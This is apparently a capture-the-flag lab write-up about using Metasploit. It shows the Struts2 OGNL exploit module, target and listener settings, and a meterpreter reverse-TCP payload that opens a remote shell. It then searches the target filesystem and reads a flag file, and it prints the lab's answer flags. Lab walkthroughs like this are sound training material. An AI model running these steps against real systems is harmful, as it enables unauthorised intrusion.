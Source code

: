 - Flag: sCrIPtKiDd

# Day 10 - Metasploit-a-Ho-Ho-Ho

## 10.1 Background

- The Metasploit Framework is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code. An exploit is a code that takes advantage of a software vulnerability or security flaw.
- With Metasploit you can choose your exploit and payload, then execute it against your chosen target

```bash
msfconsole
# start the Metasploit Framework console interface
```

- A module is a piece of software that can perform a specific action, such as scanning or exploiting. Module is equivalent to an exploit code. We can select modules on Metaspoilt using `use <module_name>`

```bash
use multi/http/struts2_content_type_ognl
```

- `show options` command then gives you options on various methods to exploit an application. It will also so `RHOST` and `RPORT` to set a target machine and `LHOST` and `LPORT` to specify your machine

```bash
set RHOST <host_addresse> 
```

- Finally `PAYLOAD` is the shell code that runs after an exploit successfully compromises a system

```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

## 10.2 Question #1 Solution

```bash
# set target host and port
set RHOST 10.10.169.140
set RPORT 80 # because http 
# Set URI
set TARGETURI /showcase.action
# set local host 
set LHOST 10.8.36.152
```

- We are all set to exploit!

```bash
exploit
# Starts a meterpreter shell
# let's find out file flag1
find / 2>>/dev/null | grep -i "flag1"
# find command does not work because apparently
# meterpeter is no a shell
shell
find / 2>>/dev/null | grep -i "flag1"
# Quit the shell to read contents
cat usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
# Returns THM{3ad96bb13ec963a5ca4cb99302b37e12}
```

